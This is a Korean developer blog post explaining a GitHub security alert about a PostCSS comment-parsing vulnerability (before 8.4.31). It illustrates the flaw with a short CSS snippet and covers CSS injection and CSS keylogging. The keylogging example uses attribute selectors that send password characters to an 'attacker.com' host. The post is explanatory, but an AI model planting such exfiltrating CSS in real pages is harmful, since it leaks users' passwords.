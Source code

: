 ```yaml
---
layout: post
title: "PostCSS line return parsing error?"
date: 2024-08-15
categories:
  - project
description: >
  'PostCSS line return parsing error'에 대해서 어떤 에러인지 알아보고, 해당 에러의 위험성의 대해서도 함께 알아봅니다.

image:
path: /assets/img/project/postCSS.png
---
```


# PostCSS line return parsing error??

## 개요

![Security Alert](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/vckf9zny0t6t8m11ukl1.png)

1. 프로젝트 초기 환경설정을 마치고 GitHub에 push를 하니, 위와 같은 보안 문제 알림이 나타났습니다.

![Security Alert Details](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/i0ooacksf5b9y1qkdpdo.png)

2. 알림 내용을 확인해보니 위와 같은 에러가 발생했습니다.

![Error Translation](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/afl4segss7c5l7qd5ca8.png)

3.  내용을 번역해보면:

            8.4.31 이전의 PostCSS에서 문제가 발견되었습니다. PostCSS를 사용하여 외부 Cascading Style Sheets(CSS)를 구문 분석하는 linter에 영향을 미칩니다. 규칙에서

        이 보일 때 불일치가 있을 수 있습니다. 예를 들어, `@font-face{ font:(

    /\*);}` 와 같은 코드가 그렇습니다.

            이 취약점은 PostCSS를 사용하여 신뢰할 수 없는 외부 CSS를 구문 분석하는 린터에 영향을 미칩니다. 공격자는 PostCSS에서 구문 분석한 부분을 CSS 주석으로 포함하는 방식으로 CSS를 준비할 수 있습니다. PostCSS에서 처리한 후 원래 주석에 포함되었음에도 불구하고 CSS 노드(규칙, 속성)의 PostCSS 출력에 포함됩니다.

![PostCSS Version](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/9nid3pulscyfna659ldl.png)

4. 현재 프로젝트에서는 8.0.0 버전을 사용 중이라 GitHub에서 보안 문제를 경고했다는 것을 알 수 있습니다.

---

## 어떤 문제였을까?

1. **PostCSS가 뭘까?**
   먼저 PostCSS가 뭔지 알아야 할 필요가 있습니다.

   _PostCSS: CSS 파일을 처리하고 변환하는데 사용되는 도구입니다. 이를 통해 CSS의 구문을 파싱하여 다양한 작업(예: 자동 접두사 추가, 변수 처리 등)을 수행할 수 있습니다._

2. **그러면 PostCSS의 어떤 부분이 문제였을까요?**
   **이 취약점의 핵심은 PostCSS가 특정 방식으로 주석을 처리할 때 발생하는 문제입니다.**

   CSS에서 주석을 처리할 때에는 `/* comment */` 형식으로 작성됩니다. 이를 이용하여 공격자는 특정 상황에서 주석 내부에 CSS 구문을 포함시킨 다음, 이 CSS가 PostCSS로 처리될 때 주석이 아닌 일반 규칙으로 인식되도록 할 수 있습니다.

   ```css
   @font-face {
   font: (\r/*);
   }
   ```

3. 위의 `
`은 캐리지 리턴(줄바꿈 문자)입니다. 이 구문은 실제로는 CSS 주석 내부에 있어야 하는 내용입니다.

4. 그러나 PostCSS는 이 부분을 주석으로 올바르게 인식하지 못하고, 주석이 아닌 정상적인 CSS 코드로 처리하는 부분이 문제가 되었습니다.

---

## 얼마나 위험한가?

1. **CSS Injection (CSS 인젝션)**
   CSS 인젝션은 일반적으로 웹 애플리케이션이 사용자로부터 입력받은 값을 제대로 검증하지 않고, 이를 CSS 코드에 삽입할 때 발생합니다. 공격자는 이를 통해 페이지의 스타일을 조작하거나, 더 심각한 경우 악성 스크립트를 실행할 수 있습니다.

   ```html
   <style>
     body {
       background-color: /*user input*/ ;
     }
   </style>
   ```

   만약 `/*user input*/`에 악성 CSS 코드가 삽입된다면, 페이지의 스타일이 비정상적으로 변경되거나 예상치 못한 동작이 발생할 수 있습니다.

2. **CSS Keylogging (CSS 키로깅)**
   CSS를 사용해 키 입력을 추적하는 방법입니다. 공격자는 CSS의 `:focus` 및 `::before`, `::after` 같은 가상 선택자를 사용하여 특정 입력 필드가 선택될 때마다 고유한 스타일을 적용할 수 있습니다. 이를 통해 키 입력을 간접적으로 추적할 수 있습니다.

   ```css
   input[type="password"][value^="a"] {
     background-image: url("http://attacker.com/log/a");
   }
   input[type="password"][value^="b"] {
     background-image: url("http://attacker.com/log/b");
   }
   ```

   사용자가 특정 값을 입력하면, 해당 값에 대한 HTTP 요청이 공격자 서버로 전송될 수 있습니다. 이 방식으로 비밀번호 등의 민감한 정보를 추적할 수 있습니다.
